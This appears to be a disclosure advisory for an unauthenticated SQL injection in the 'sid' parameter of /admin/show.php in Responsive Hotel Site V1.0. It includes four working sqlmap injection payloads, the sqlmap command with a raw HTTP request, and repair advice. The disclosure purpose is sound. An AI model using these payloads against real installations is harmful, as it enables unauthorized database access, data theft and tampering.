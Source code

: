 # Responsive Hotel Site V1.0 /admin/show.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Responsive Hotel Site

## Vendor Homepage

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- K1nako

## VERSION(S)

- V1.0

## Software Link

- [Responsive Hotel Site Using PHP With Source Code - Source Code & Projects](https://code-projects.org/responsive-hotel-site-using-php-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the '/admin/show.php' file of the 'Responsive Hotel Site' project. The reason for this issue is that attackers inject malicious code from the parameter "sid" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Responsive Hotel Site", discovered a critical SQL injection vulnerability in the "/admin/show.php" file. This vulnerability stems from insufficient user input validation of the 'sid' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based
- UNION query

## Vulnerability location:

- 'sid' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' AND 8029=8029-- VToc
    Vector: AND [INFERENCE]

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' OR (SELECT 1574 FROM(SELECT COUNT(*),CONCAT(0x71707a7071,(SELECT (ELT(1574=1574,1))),0x71766b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OoxU
    Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' AND (SELECT 3162 FROM (SELECT(SLEEP(5)))TMPX)-- XXRy
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: http://10.151.169.235:8833/admin/show.php?sid=1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71707a7071,0x595673745a6e6b72747257627357415967744a4d4f675253424c4e556f6c7a5a4e515549474c4f5a,0x71766b7a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20251011194325460](assets/image-20251011194325460.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /admin/show.php?sid=1* HTTP/1.1
Host: 10.151.169.235:8833
Cache-Control: max-age=0
Origin: http://10.151.169.235:8833
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.169.235:8833/admin/roomdel.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=cuq6v5v2e97ubeodt33s8k4ot9
Connection: keep-alive
```

# Attack results

![image-20251011194400835](assets/image-20251011194400835.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.